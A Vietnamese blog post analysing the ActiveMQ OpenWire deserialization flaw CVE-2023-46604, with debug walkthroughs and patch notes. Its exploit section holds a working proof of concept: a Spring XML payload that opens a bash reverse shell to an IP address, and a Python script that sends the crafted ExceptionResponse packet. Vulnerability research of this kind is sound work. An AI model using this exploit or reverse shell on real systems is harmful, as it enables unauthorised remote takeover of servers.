


+++
date = '2025-10-26T00:00:00+07:00'
draft = false
title = 'Phân tích CVE-2023-46604'
description = 'Phân tích CVE-2023-46604: OpenWire protocol unauth RCE'
tags = ['cve', 'java', 'deserialize', 'activemq', 'openwire']
+++
# CVE-2023-46604

[CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) là lỗ hổng RCE trong Apache ActiveMQ. Nguyên nhân xuất phát từ việc giải tuần tự (deserialization) dữ liệu không an toàn trong giao thức OpenWire – giao thức mặc định của ActiveMQ.

# ActiveMQ và OpenWire

## ActiveMQ

ActiveMQ là một message broker mã nguồn mở, viết bằng Java và là một dự án của Apache. Nó cung cấp khả năng gửi/nhận tin nhắn ứng dụng theo mô hình decoupled (queue và publish/subscribe).

ActiveMQ hỗ trợ tiêu chuẩn JMS (Java Message Service) và nhiều giao thức khác: OpenWire (mặc định), AMQP, MQTT, REST/WebSocket, ...

## OpenWire

OpenWire là giao thức nhị phân mặc định của Apache ActiveMQ để trao đổi các lệnh và tin nhắn giữa client và broker. Nó tối ưu cho hiệu năng, hỗ trợ nhiều loại message và cơ chế điều khiển (ack, transaction, flow control).

OpenWire truyền các "command" (đối tượng/dữ liệu) qua TCP/SSL theo từng frame. Mỗi frame mang một command - thực chất là một DataStructure (ví dụ ConnectionInfo, ConsumerInfo, Message, ...). Mỗi command có metadata (ví dụ size, type) và payload được marshal. 


OpenWire có nhiều phiên bản (kết nối giữa client và broker sẽ sử dụng phiên bản cao nhất mà cả 2 cùng hỗ trợ) và 2 loại encoding chính (tight/loose). 

## Example

Các bạn có thể tải mã nguồn của ActiveMQ từ [trang chủ](https://activemq.apache.org/download.html) và sử dụng file Dockerfile sau để dựng môi trường.

```Dockerfile
# Use OpenJDK 11 as base image (compatible with ActiveMQ 5.17.3)
FROM openjdk:11-jre-slim

# Set environment variables
ENV ACTIVEMQ_VERSION=5.17.3
ENV ACTIVEMQ_HOME=/opt/activemq
ENV ACTIVEMQ_CONF=/opt/activemq/conf
ENV ACTIVEMQ_DATA=/opt/activemq/data
ENV JAVA_HOME=/usr/local/openjdk-11

# Create activemq user and group
RUN groupadd -r activemq && useradd -r -g activemq activemq

# Install necessary packages
RUN apt-get update && \
    apt-get install -y \
    procps \
    net-tools \
    curl \
    && rm -rf /var/lib/apt/lists/*

# Create directories
RUN mkdir -p ${ACTIVEMQ_HOME} ${ACTIVEMQ_DATA}

# Copy ActiveMQ installation
COPY . ${ACTIVEMQ_HOME}/

# Set permissions
RUN chown -R activemq:activemq ${ACTIVEMQ_HOME} && \
    chmod +x ${ACTIVEMQ_HOME}/bin/activemq

# Set working directory
WORKDIR ${ACTIVEMQ_HOME}

# Switch to activemq user
USER activemq

# Set Java options with debug configuration
ENV JAVA_OPTS="-Xms512M -Xmx2G \
    -Djava.util.logging.config.file=logging.properties \
    -Djava.security.auth.login.config=${ACTIVEMQ_CONF}/login.config \
    -Dcom.sun.management.jmxremote \
    -Dcom.sun.management.jmxremote.port=1099 \
    -Dcom.sun.management.jmxremote.rmi.port=1098 \
    -Dcom.sun.management.jmxremote.ssl=false \
    -Dcom.sun.management.jmxremote.authenticate=false \
    -Djava.rmi.server.hostname=0.0.0.0"

# Set ActiveMQ options with debug enabled
ENV ACTIVEMQ_OPTS="-Xdebug \
    -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:5005 \
    -Dactivemq.classpath=${ACTIVEMQ_HOME}/conf:${ACTIVEMQ_HOME}/lib/* \
    -Dactivemq.home=${ACTIVEMQ_HOME} \
    -Dactivemq.base=${ACTIVEMQ_HOME} \
    -Dactivemq.conf=${ACTIVEMQ_CONF} \
    -Dactivemq.data=${ACTIVEMQ_DATA}"

# Expose ports
# 61616 - OpenWire protocol
# 5672  - AMQP protocol
# 61613 - STOMP protocol
# 1883  - MQTT protocol
# 8161  - Web Console
# 1099  - JMX port
# 1098  - JMX RMI port
# 5005  - Debug port
EXPOSE 61616 5672 61613 1883 8161 1099 1098 5005

# Health check
HEALTHCHECK --interval=30s --timeout=10s --start-period=60s --retries=3 \
    CMD curl -f http://localhost:8161/ || exit 1

# Default command - run ActiveMQ in console mode with debug options
CMD ["sh", "-c", "exec ${ACTIVEMQ_HOME}/bin/activemq console"]
```

Cùng với đoạn code sau

```java
import javax.jms.*;
import org.apache.activemq.ActiveMQConnectionFactory;
import java.io.*;

public class Main {

    public static String brokerUrl = "tcp://localhost:61616?wireFormat.cacheEnabled=false&wireFormat.tightEncodingEnabled=false";

    public static void sendTextMsg(String queueName, String text) {
        try {
            ActiveMQConnectionFactory cf = new ActiveMQConnectionFactory(brokerUrl);
            cf.setOptimizedMessageDispatch(false);
            cf.setUseCompression(false);
            Connection connection = cf.createConnection();
            connection.start();
            Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
            Queue queue = session.createQueue(queueName);

            // Producer
            MessageProducer producer = session.createProducer(queue);
            TextMessage msg = session.createTextMessage(text);
            msg.setStringProperty("region", "apac");
            producer.send(msg);

            session.close();
            connection.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static String receiveTextMsg(String queueName) {
        try {
            ActiveMQConnectionFactory cf = new ActiveMQConnectionFactory(brokerUrl);
            cf.setOptimizedMessageDispatch(false);
            cf.setUseCompression(false);
            Connection connection = cf.createConnection();
            connection.start();
            Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
            Queue queue = session.createQueue(queueName);

            MessageConsumer consumer = session.createConsumer(queue, "region = 'apac'");
            Message m = consumer.receive(2000);
            String textMsg = null;
            if (m instanceof TextMessage) {
                textMsg = ((TextMessage) m).getText();
            }
            session.close();
            connection.close();
            return textMsg;
        } catch (Exception e) {
            e.printStackTrace();
            return null;
        }
    }

    public static void main(String[] args) throws Exception {
        sendTextMsg("test", "test");
        String msg = receiveTextMsg("test");
        System.out.println(msg);
    }
}
```

Đoạn code trên thực hiện:
1. Kết nối tới broker tại `tcp://localhost:61616`.
2. Tạo Producer, khai báo queue và gửi một TextMessage (kèm thuộc tính `region=apac`) lên queue đó.
3. Tạo Consumer lắng nghe cùng queue với selector `region = 'apac'`; khi có thông điệp phù hợp, broker chuyển tới consumer để nhận.

Cùng thử debug để quan sát quá trình broker nhận và xử lý gói tin ActiveMQTextMessage.

### Debug

Đầu tiên khi gói tin đến broker, method TcpTransport.readCommand sẽ được gọi để bắt đầu quá trình đọc command từ kết nối TCP. Method OpenWireFormat.unmarshal sẽ được sử dụng để đọc size của command, kiểm tra tính hợp lệ.


Hàm OpenWireFormat.doUnmarshal sẽ xác định loại command (dựa trên byte đầu tiên của command) và gọi hàm unmarshal tương ứng (ở đây là 28:ActiveMQTextMessage). Sau đó tuỳ vào encoding (tight/loose) mà hàm unmarshal sẽ gọi các hàm tương ứng để đọc dữ liệu.


Tiếp đó dữ liệu trong DataInputStream sẽ được đọc tuần tự để gán vào các trường (field) trong đối tượng ActiveMQTextMessage. Quá trình này sẽ tiếp tục diễn ra đệ quy với các đối tượng con bên trong.


# ExceptionResponse

ExceptionResponse trong OpenWire là bản tin phản hồi lỗi mà broker gửi về khi xử lý một Command thất bại. Gói tin này được gửi khi client gửi Command có yêu cầu phản hồi (responseRequired = true) và broker throw exception trong quá trình xử lý (ví dụ sai cú pháp, quyền, đích không tồn tại, lỗi nội bộ). 

Lỗi được "marshal" thành cấu trúc lỗi (bao gồm loại exception, message và stack trace) để client có thể unmarshal và hiển thị/ghi log.

CVE-2023-46604 lợi dụng việc broker/client xử lý gói tin ExceptionResponse chứa payload là `org.springframework.context.support.ClassPathXmlApplicationContext`.

## ClassPathXmlApplicationContext

ClassPathXmlApplicationContext là một lớp trong Spring Framework, chịu trách nhiệm tải cấu hình ứng dụng từ các tệp XML nằm trong classpath. Khi khởi tạo, lớp này sẽ đọc các tệp XML được chỉ định, phân tích cú pháp chúng và tạo các bean (đối tượng) dựa trên cấu hình được cung cấp.

Đặc biệt ClassPathXmlApplicationContext còn có thể sử dụng file xml từ xa qua URL.

Từ những đặc điểm trên, ta có thể xây dựng payload để khi broker/client unmarshal gói tin ExceptionResponse chứa ClassPathXmlApplicationContext, nó sẽ tải file xml từ xa và tạo bean là ProcessBuilder để thực thi lệnh tùy ý.

# Exploit

Để khai thác lỗ hổng CVE-2023-46604, ta cần chuẩn bị 2 phần chính:

1. File XML chứa payload để tạo bean ProcessBuilder.
2. Script tạo gói tin ExceptionResponse với payload trên và gửi tới broker.

## Payload XML
Nội dung file `payload.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/172.31.157.36/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

File XML trên sẽ tạo bean ProcessBuilder để thực thi lệnh bash, mở reverse shell tới địa chỉ IP và cổng chỉ định.

## Script gửi payload

Ta sẽ sử dụng python để tạo gói tin ExceptionResponse theo đúng [cấu trúc](https://activemq.apache.org/components/classic/documentation/openwire-version-2-specification#throwable-type-encoding) và gửi tới broker.

Một ExceptionResponse có cấu trúc như sau


```python
import socket 
import argparse 
 
def main(ip, port, url): 
    if not ip or not url: 
        print("Usage: script.py -i <ip> -p <port> -u <url>") 
        return 
    
     
    class_name = "org.springframework.context.support.ClassPathXmlApplicationContext" 
    message = url 
 
    header = "1f00000000000000000001" 
    body = header + "01" + int2hex(len(class_name), 4) + string2hex(class_name) + "01" + int2hex(len(message), 4) + string2hex(message) 
    payload = int2hex(len(body) // 2, 8) + body 
    data = bytes.fromhex(payload) 
 
    print("[*] Target:", f"{ip}:{port}") 
    print("[*] XML URL:", url) 
    print() 
    print("[*] Sending packet:", payload) 
 
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    conn.connect((ip, int(port))) 
    conn.send(data) 
    conn.close() 
 
def string2hex(s): 
    return s.encode().hex() 
 
def int2hex(i, n): 
    if n == 4: 
        return format(i, '04x') 
    elif n == 8: 
        return format(i, '08x') 
    else: 
        raise ValueError("n must be 4 or 8") 
 
if __name__ == "__main__": 
    parser = argparse.ArgumentParser() 
    parser.add_argument("-i", "--ip", help="ActiveMQ Server IP or Host") 
    parser.add_argument("-p", "--port", default="61616", help="ActiveMQ Server Port") 
    parser.add_argument("-u", "--url", help="Spring XML Url") 
    args = parser.parse_args() 
     
    main(args.ip, args.port, args.url)
```
Giải thích một số phần chính trong payload:

header: `1f00000000000000000001`
- `1f`: Type code của ExceptionResponse (31)
- `00000000`: commandId (0)
- `00`: responseRequired (false)
- `00000000`: correlationId (0)
- `01`: not-null (true) - báo hiệu có Throwable đi kèm

Byte `01` báo hiệu chuỗi className không null, tiếp theo là độ dài và nội dung chuỗi className.

Byte `01` báo hiệu chuỗi message không null, tiếp theo là độ dài và nội dung chuỗi message (URL tới file XML).

## Debug

Ta cùng debug quá trình broker xử lý gói tin **ExceptionResponse** với payload trên.

OpenWire sẽ khởi tạo một Throwable để truyền vào command ExceptionResponse.


Class ClassPathXmlApplicationContext sẽ được khởi tạo với tham số truyền vào là URL tới file XML.


Method `AbstractApplicationContext.loadBeanDefinitions()` sẽ được gọi để tải và phân tích cú pháp file XML.


Method `AbstractApplicationContext.finishBeanFactoryInitialization()` sẽ được gọi để hoàn tất việc khởi tạo bean.





Một bean ProcessBuilder sẽ được khởi tạo bằng constructor với argument được cung cấp trong file XML.


Thành công có được reverse shell từ broker



# End

ActiveMQ 5.x đóng gói các thư viện Spring cần thiết trên classpath; đây là lý do ClassPathXmlApplicationContext có sẵn để bị lạm dụng. Nếu thiếu Spring trên classpath thì payload không kích hoạt.

Ở bản cập nhật 5.17.6, Apache ActiveMQ đã vá lỗ hổng CVE-2023-46604 bằng cách thêm kiểm tra exception có phải là một Throwable hay không trước khi khởi tạo lại.


Liệu rằng các khắc phục này có thể bị bypass trong tương lai ?:)